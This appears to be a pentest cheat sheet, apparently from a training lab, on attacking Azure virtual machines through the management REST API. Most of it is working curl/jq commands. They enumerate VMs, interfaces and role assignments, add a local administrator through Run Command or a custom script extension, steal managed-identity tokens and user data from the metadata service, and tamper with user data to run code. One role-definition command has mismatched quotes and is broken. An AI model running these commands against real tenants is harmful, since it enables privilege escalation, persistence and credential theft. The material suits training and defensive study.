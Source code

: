 ```yaml
---
title: Virtual Machine
---
```


[[notes/azure/index]] Virtual Machines are comparable to AWS EC2 instances.

Retrieve info like OS and network interface IDs of a VM.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Research/providers/Microsoft.Compute/virtualMachines/jumpvm?api-version=2023-07-01" -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" | jq
~~~

Enumerate all network interfaces and assigned public IPs.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/providers/Microsoft.Network/networkInterfaces?api-version=2023-05-01" -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" | jq -r '.value[]'
~~~

Enumerate all public IPs and filter for a specific one.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/providers/Microsoft.Network/publicIPAddresses?api-version=2023-05-01" -H 'Content-Type: application/json' -H "Authorization: Bearer $(jq -r .accessToken .roadtools_auth)" | jq -r '.value[]|select(.name=="jumpvm-ip")'
~~~

Enumerate your permissions on a VM.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect/providers/Microsoft.Authorization/permissions?api-version=2018-07-01" -H "Authorization: Bearer $arm_token" | jq -r '.value[]'
~~~

Enumerate VM extensions.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Research/providers/Microsoft.Compute/virtualMachines/jumpvm/extensions?api-version=2023-07-01" -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" | jq -r '.value[]'
~~~

Enumerate your permissions on a VM extension.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Research/providers/Microsoft.Compute/virtualMachines/jumpvm/extensions/MicrosoftMonitoringAgent/providers/Microsoft.Authorization/permissions?api-version=2018-07-01" -H "Authorization: Bearer $arm_token" | jq -r '.value[]'
~~~

Enumerate role assignments on a VM and resolve the role definitions.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Research/providers/Microsoft.Compute/virtualMachines/jumpvm/providers/Microsoft.Authorization/roleAssignments?api-version=2020-08-01-preview" -H "Authorization: Bearer $arm_token" | jq -r '.value[].properties.roleDefinitionId'
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Research/providers/Microsoft.Compute/virtualMachines/jumpvm/providers/Microsoft.Authorization/roleDefinitions/$role_def_id?api-version=2022-04-01' -H "Authorization: Bearer $arm_token" | jq -r '.properties'
~~~

Run a command on a VM to add an local admin.

~~~ bash
cat << 'EOF' > ./adduser.ps1
$p = ConvertTo-SecureString 'P@ssw0rd1234' -AsPlainText -Force
New-LocalUser -Name student57 -Password $p
Add-LocalGroupMember -Group Administrators -Member student57
EOF
jq -ncR '{"commandId":"RunPowerShellScript","script":[inputs]}' ./adduser.ps1 | curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect/runCommand?api-version=2023-07-01" -d @- -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" -i | grep -i 'location:' | sed 's|^location: *||i' | read -r operation_url
curl -sSf "$operation_url" -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" | jq -r '.value[].message'
~~~

Abuse an extension for command execution in a VM.

~~~ bash
jq -rn --arg command 'net users student57 P@ssw0rd1234 /add /y && net localgroup administrators student57 /add' '{"properties":{"settings":{"commandToExecute":$command}},"location":"Germany West Central"}' | curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Research/providers/Microsoft.Compute/virtualMachines/infradminsrv/extensions/ExecCmd?api-version=2023-07-01" -d @- -X PUT -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" -i | grep -i 'azure-asyncoperation:' | sed 's|^azure-asyncoperation: *||i' | read -r operation_url
curl -sSf "$operation_url" -H "Authorization: Bearer $arm_token" | jq
~~~

With command execution inside a VM you can get an access token for the VMs managed identity from the Instance Metadata Service.

~~~ bash
curl -sSf -H 'Metadata: true' 'http://169.254.169.254/metadata/identity/oauth2/token' -G -d api-version=2018-02-01 --data-urlencode resource='https://management.azure.com/'
curl -sSf -H 'Metadata: true' 'http://169.254.169.254/metadata/identity/oauth2/token' -G -d api-version=2018-02-01 --data-urlencode resource='https://graph.microsoft.com/'
~~~

You can also access the VMs user data which might contain sensitive information.

~~~ bash
curl -sSf 'http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text' -H 'Metadata: true' | base64 -d
~~~

With `Microsoft.Compute/virtualMachines/write` user data can be modified which might lead to code execution in the VM.

~~~ bash
jq -rn --arg data "$(echo -n whoami | base64 -w0)" '{"location":"Germany West Central","properties":{"userData":$data}}' | curl -sSf -X PUT 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Research/providers/Microsoft.Compute/virtualMachines/jumpvm?api-version=2021-07-01' -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" -d @-
~~~

When a VM is joined to Azure AD, following roles become member of the local administrators group:

- Global Administrators
- Azure AD Joined Device Local Administrator
- the user who joined the machine to Azure

# Custom Script Extensions

Custom Script Extensions are used to run scripts on Azure VMs in the context of system / root.
The scripts can be inline, fetched from a storage blob (needs managed identity) or downloaded from an URL and can be deployed to a running VM.
Abuse requires `Microsoft.Compute/virtualMachines/extensions/read` and `write`.

References:

- [Azure Attack Paths - Azure VM Run Command or Custom Script execution](http://web.archive.org/web/20231028211850/https://cloudbrothers.info/azure-attack-paths/#azure-vm-run-command-or-custom-script-execution)
